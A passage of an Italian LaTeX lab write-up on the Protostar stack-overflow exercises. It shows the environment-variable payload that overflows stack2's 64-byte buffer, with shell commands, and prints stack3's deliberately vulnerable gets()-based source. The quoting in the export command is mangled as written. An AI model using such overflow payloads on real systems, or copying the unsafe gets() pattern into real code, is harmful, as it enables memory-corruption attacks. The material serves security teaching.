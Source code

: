 L'idea su cui si poggia l'attacco a \texttt{stack2} è identica a quella vista per \texttt{stack1}:
\begin{itemize}
    \item Si costruisce un input di 64 'a' per riempire \texttt{buffer}
    \item Si appendono i 4 caratteri aventi codice ASCII \texttt{0x0d}, \texttt{0x0a}, \texttt{0x0d}, \texttt{0x0a}, al rovescio, per riempire \texttt{modified}
    \item Si invia l'input a \texttt{stack2}
\end{itemize}

Possiamo farlo usando il comando:
\begin{lstlisting}[style=bashstyle]
    export GREENIE='python -c 'print "a" * 64'' + "\x0a\x0d\x0a\x0d"''
\end{lstlisting}
Mandiamo in esecuzione stack 2 e verrà stampato il messaggio: \textcolor{red}{you have correctly modified the variable}, vinciamo quindi la sfida.

\subsection{Sintesi comandi da eseguire}
\begin{lstlisting}[style=bashstyle]
    # entriamo nella cartella di lavoro
    cd /opt/protostar/bin
    # modifichiamo GREENIE
    export GREENIE='python -c 'print "a" * 64'' + "\x0a\x0d\x0a\x0d"''
\end{lstlisting}

\section{Stack 3}
Stack3 esamina le variabili di ambiente e come possono essere impostate, e sovrascrive i puntatori alle funzioni memorizzati nello stack.
Il programma in questione si chiama \textbf{stack3.c} e il suo eseguibile ha il seguente percorso: \textbf{/opt/protostar/bin/stack3}

Il codice sorgente è il seguente
\begin{lstlisting}[style=cstyle]
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
    volatile int (*fp)();
    char buffer[64];

    fp = 0;

    gets(buffer);

    if(fp) {
        printf("calling function pointer, jumping to 0x%08x\n", fp);
        fp();
    }
}
\end{lstlisting}

